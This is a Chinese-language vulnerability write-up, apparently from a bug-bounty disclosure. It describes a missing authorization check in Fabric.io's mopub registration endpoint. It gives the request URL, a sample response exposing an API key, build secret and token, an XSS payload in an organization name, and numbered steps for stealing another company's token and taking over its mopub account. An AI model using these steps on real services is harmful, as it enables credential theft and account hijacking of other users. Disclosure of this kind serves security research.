


## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 主要逻辑

Fabric平台帮助你构建更稳定的应用程序，通过世界上最大的移动广告交易平台产生收入，并使你能够利用Twitter的登录系统和丰富的实时内容,实现更大的分发和更简单的身份识别; 在注册功能(主要是为公司注册)中,缺少适当的授权检查，允许任何用户窃取API令牌。


## 请求

URL GET/POST data: POST METHOD:

`https://fabric.io/img-srcx-onerrorprompt15/android/apps/app.myapplication/mopub`



响应:

```json
{
  "mopub_identity": {
    "id":"5496c76e8b15dabe9c0006d7",
    "confirmed":true,
    "primary":false,
    "serv ice":"mopub",
    "token":"35592"
                  },
  "organization":{
    "id":"5460d2394b793294df01104a",
    "name":"\u003Ca href=\"javascript:alert(1);\"\u003Es\u003C/a\u003E\u003Ch1\u003Etest\u003C/h1\u003E",
    "al ias":"img-srcx-onerrorprompt1s- projects2",
    "api_key":"8590313c7382375063c2fe279a4487a98387767a",
    "enrollments":{
      "beta_ distribution":"true"
    },
    "accounts_count":3,
    "apps_counts":{
      "android":2
    },
    "sdk_organization":true,
    " build_secret":"5ef0323f62d71c475611a635ea09a3132f037557d801503573b643ef8ad82054",
    " mopub_id":"33525"
  }
}
```

## 复现步骤

1.创建两个账户

2.记下这两个账户的公司(organization)id

3.账户A用公司B的id重复上述请求

4.你就可以窃取受害者mopub API令牌

## 账户劫持

1.用上述方法使用fabric.io从受害者那里窃取到`build secret`

2.使用下面的URL进入受害者mopub帐户。
`https://app.mopub.com/complete/htsdk/?code=[build secret]&amp;next=%2d replace
[build secret] with token you extracted from step one`

用从第一步提取的令牌取代`build secret`


3.现在你将可以访问受害者mopub的帐户，他的所有应用程序/组织将在fabric中显示出来




